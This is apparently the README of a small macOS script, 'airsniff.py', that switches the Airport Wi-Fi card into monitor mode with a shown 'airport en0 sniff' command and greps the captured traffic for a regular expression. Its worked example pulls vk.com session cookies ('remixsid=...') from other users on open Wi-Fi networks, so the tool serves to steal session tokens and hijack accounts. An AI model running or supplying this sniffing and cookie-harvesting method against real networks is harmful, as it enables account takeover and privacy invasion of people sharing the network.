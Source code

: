 This is quite simple script. You can do all this stuff manually without the script.

It use built-in Airport Extreme card for grab your pattern from wireless traffic.

It can be used **only in open Wi-Fi network**.

#### What it doing: 

* Swith Airport card into monitor mode on selected channel.
```sudo "/System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport" en0 sniff 10```
Where en0 - Aiport card, 10 - channel. It will write dump in .cap file localted in /tmp/.

To find which channel use your network hold ```Alt``` and click on wifi icon:

![CHANNEL](http://cdn.zhovner.com/forever/wifi_channel.png)

* Match your regexp in .cap file in cycle and exclude duplicates strings.

#### Usage:

```sudo airsniff.py <channell> <\"pattern\">````

 **<channell>** — wifi channel

 **<\"pattern\">** — regexp that will grep /tmp/*.cap file. Quotes and backslashes required!

Example for vk.com: 
```airsniff.py 10 \"remixsid=[a-z0-9]{68}\"```

